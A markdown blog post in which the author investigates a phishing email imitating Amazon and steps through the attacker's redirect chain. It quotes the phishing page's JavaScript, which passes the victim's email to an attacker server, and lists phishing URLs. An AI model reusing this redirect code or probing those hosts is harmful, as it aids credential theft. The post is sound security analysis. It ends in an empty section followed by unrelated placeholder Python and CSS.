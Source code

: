 ```yaml
---
date: "2018-12-28"
title: "Phishing"
category: "Hacking"
---
```

![alt text](https://storage.googleapis.com/warrenlee/myBlog/phishing/phishing.jpg)

Today I received an interesting phishing email.
<br />
I did the research and found out it's actually a good learning opportunity,
since attacker's server demonstrates excellent practice in network security.
<br />
Today's goal is to attack phishing server by mimicking victims.
<br />
### Email content
<b>TITLE:</b> RE: Wrn ,protect your sensitive data from unauthorized access
<br />
<b>FROM:</b> goer.vassaux05@ingame.de
<br />
![alt text](https://storage.googleapis.com/warrenlee/myBlog/phishing/email.jpg)
<br />
As you can see, the attacker just attached a copy image to mimic Amazon site.
<br />

### Verification Process
#### Microservice
By clicking 'log in', the victim would be navigated to "http://karet1nagut4zinat2a.myvnc.com/Lzmvejr9/9VRl0.html?e=user@domain.com&A3zj864z4g4h=Yku8nhrrI24"
<br /> 
P.S. Before doing this, we need to set up proxies on Chrome and Postman since attacker's server will block client by IP address.
<br />
<br />
And the response is pure JavaScript code as following
```js
<script type="text/javascript">
function getUrlVars() {
var vars = {};
var parts = window.location.href.replace(/[?&]+([^=&]+)=([^&]*)/gi, function(m,key,value) {
vars[key] = value;
});
return vars;
}
var email = getUrlVars()["e"];

document.write('
    <script type="text/javascript" src="ip-email.php?email='+ email +'"><\/script>');



    </script>
    <script type="text/javascript">

window.location = 'http://lertamer1iutyvab3kibratec2.hindusa7lozqebc4orbc.dynu.net/XIUKBYXj/c.php?click=yes&acc=yes&data=6bdP07fjlZU&e=' + email;

</script>
```
> <b>This process seems redundant. Why does the server need an extra redirect logic ?</b>
<br />
Once you look at the redirect URL, you would find out the server is a microservice with auto-generated host name.

Such a beautiful design !!
<br />
The attacker leveraged 'serverless' concept and used that to avoid direct attack.
<br />
#### Cookie
After making GET request to the redirect server, I received an empty response.
But, I got 'Set-Cookie' key in the response header.
![alt text](https://storage.googleapis.com/warrenlee/myBlog/phishing/cookie.jpg)
> OK, I guess this is a typical security practice. Good Job, attacker.
<br />
Then we need to use this cookie to personate the victim in later requests.

By using 'Link Redirect Trace' Chrome extension, I found there should be one more redirect.
One GET request to 
'http://lertamer1iutyvab3kibratec2.hindusa7lozqebc4orbc.dynu.net/XIUKBYXj/6bdP07fjlZU/de/smart.html'
<br />
And then the response was
```js
<meta HTTP-EQUIV='REFRESH' content='0; url=/XIUKBYXj/6bdP07fjlZU/slsE7oEhpngamqHFQpNhvh7HJSAASj/do.html?id=FVtbYxvrAkxwH8DUr4b5ml5gCTccpJkrP6NlJxDo'>
```
> Hmmm...using meta tag to redirect to target URL

After redirect, I got
```html
<title>Amazon</title>
<link rel="shortcut icon" href="files-aws/favicon.ico" type="image/x-icon">
<frameset>
    <frame src="/2VC1vaJC/6bdP07fjlZU/F7QCiIcGJe85mphq3T0hQb2gETrByt/iframe.php">

    </frameset>
```
Making one more GET request to 'http://lertamer1iutyvab3kibratec2.hindusa7lozqebc4orbc.dynu.net/2VC1vaJC/6bdP07fjlZU/F7QCiIcGJe85mphq3T0hQb2gETrByt/iframe.php'

and I got
```html
<script type="text/javascript">
	if (parent.frames.length > 0){
        top.location.replace(document.location);
	}</script>
<meta HTTP-EQUIV="REFRESH" content="0; url=do.html.">
```

> I was thrilled by this result. Its about to make login request

#### Attack Server












```python
s = "Python syntax highlighting"
print s
```

```css
code[class*="language-"],
pre[class*="language-"] {
	color: black;
	background: none;
	font-family: Consolas, Monaco, 'Andale Mono', 'Ubuntu Mono', monospace;
	text-align: left;
	white-space: pre;
	word-spacing: normal;
	word-break: normal;
	word-wrap: normal;
	line-height: 1.5;

	-moz-tab-size: 4;
	-o-tab-size: 4;
	tab-size: 4;

	-webkit-hyphens: none;
	-moz-hyphens: none;
	-ms-hyphens: none;
	hyphens: none;
}
```